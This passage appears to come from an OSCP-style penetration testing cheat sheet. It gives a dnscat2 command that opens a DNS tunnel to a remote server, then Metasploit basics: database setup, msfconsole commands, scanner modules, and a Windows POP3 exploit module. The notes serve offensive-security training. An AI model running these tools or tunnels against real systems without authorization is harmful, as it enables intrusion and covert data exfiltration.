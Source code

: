         [*https://github.com/lukebaggett/dnscat2-powershell/*](https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:  
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

-   Metasploit

    -   MetaSploit requires Postfresql  
    
        `systemctl start postgresql`

    -   To enable Postgresql on startup  
    
        `systemctl enable postgresql`

-   MSF Syntax

    -   Start metasploit  
        
        `msfconsole  `
        
        `msfconsole -q`

    -   Show help for command  
    
        `show -h`

    -   Show Auxiliary modules  
    
        `show auxiliary`

    -   Use a module  
    
        ```
        use auxiliary/scanner/snmp/snmp_enum  
        use auxiliary/scanner/http/webdav_scanner  
        use auxiliary/scanner/smb/smb_version  
        use auxiliary/scanner/ftp/ftp_login  
        use exploit/windows/pop3/seattlelab_pass
        ```

    -   Show the basic information for a module  
    
        `info`

    -   Show the configuration parameters for a module  
    
        `show options`
